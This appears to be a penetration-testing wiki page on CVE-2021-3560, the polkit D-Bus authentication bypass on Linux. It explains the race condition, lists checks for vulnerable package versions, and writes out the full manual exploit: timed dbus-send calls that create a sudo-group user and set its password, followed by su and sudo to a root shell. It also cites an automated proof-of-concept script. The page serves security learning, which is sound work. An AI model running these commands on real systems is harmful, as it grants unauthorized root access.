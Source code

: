 ```yaml
---
description: CVE-2021-3560
---
```


# D-Bus Authentication Bypass

## Theory

The vulnerability can be boiled down to these steps:

1. The attacker manually sends a dbus message to the accounts-daemon requesting the creation of a new account with sudo permissions (or latterly, a password to be set for the new user). This message gets given a unique ID by the dbus-daemon.
2. The attacker kills the message after polkit receives it, but before polkit has a chance to process the message. This effectively destroys the unique message ID.
3. Polkit asks the dbus-daemon for the user ID of the user who sent the message, referencing the (now deleted) message ID.
4. The dbus-daemon can't find the message ID because we killed it in step two. It handles the error by responding with an error code.
5. Polkit mishandles the error and substitutes in 0 for the user ID -- i.e. the root account of the machine.\

6. Thinking that the root user requested the action, polkit allows the request to go through unchallenged.

In short, by destroying the message ID before the dbus-daemon has a chance to give polkit the correct ID, we exploit the poor error-handling in polkit to trick the utility into thinking that the request was made by the all-powerful root user.  - [TryHackMe](http://localhost:5000/s/hhJPQlmTdlPBQjXz6mN2/the-formal-stuff/requesting-time-off)

See the full vulnerability explain on the official [Kevin Backhouse article](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/).

## Practice

{% tabs %}
{% tab title="Enumeration" %}
Many of the most popular Linux distributions didn’t ship the vulnerable version until more recently. You may run Polkit exploit on the following targets:

* RHEL 8
* Fedora 21 (or later)
* Debian testing (“bullseye”)
* Ubuntu 20.04
* LTS ("Focal Fossa")

Others may also be vulnerables if you find that the installed polkit package is vulnerable. Affected versions are **0.113** (or later) for `rhel,centos,fedora` and **0.105-26** for `Debian/Ubuntu`

```bash
#Debian/Ubuntu
apt list --installed | grep policykit-1
dpkg -l | grep -i polkit|grep -i "0.105-26"

#RHEL/CentOs/Fedora
rpm -qa | grep -i polkit|grep -i '0.11[3-9]'
```

Additionally, This exploit works only on distributions that have installed `accountsservice` and `gnome-control-center`

```bash
#Debian/Ubuntu
dpkg -l  | grep -i 'accountsservice'
dpkg -l  | grep -i 'gnome-control-center'

#RHEL/CentOs/Fedora
rpm -qa  | grep -i 'accountsservice'
rpm -qa  | grep -i 'gnome-control-center'
```

&#x20;
{% endtab %}

{% tab title="Manual Exploit" %}
First, send a dbus message to create a new user

<pre class="language-bash"><code class="lang-bash"># string:pwned: The new user named "pwned".
# string:"Account Desc": The description of the new user.
# int32:1: sudo group
<strong>$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:pwned string:"Account Desc" int32:1 &#x26; sleep 0.005s; kill $!
</strong><strong>
</strong><strong>#Check if it worked
</strong>$ id pwned
uid=1000(pwned) gid=1000(pwned) groups=1000(pwned),27(sudo)
</code></pre>

Second, generate password and set it with a dbus message&#x20;

```bash
# Generate SHA512 password (-6)
openssl passwd -6 password123

#Dbus message
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'<password_hash>' string:'Ask the tester' & sleep 0.005s; kill $!
```

Third, we can login into this new account and spawn a privileged shell

```bash
#Switch
user$ su - pwned

#Spawn root shell
pwned$ sudo su root
```
{% endtab %}

{% tab title="Auto Exploit" %}
To automate this processus, we can use [this exploit](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) made by Secnigma.

```bash
# Add user with creds secnigma:secnigmaftw
./poc.sh

# Add your own user
./poc.sh -u=MyUser -p=MyPassword
```

{% hint style="danger" %}
Do not run this script in graphical login
{% endhint %}
{% endtab %}
{% endtabs %}



## Ressource

{% embed url="https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/" %}

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/polkit-privilege-escalation/#cve-2021-3560" %}

{% embed url="https://tryhackme.com/room/polkit" %}
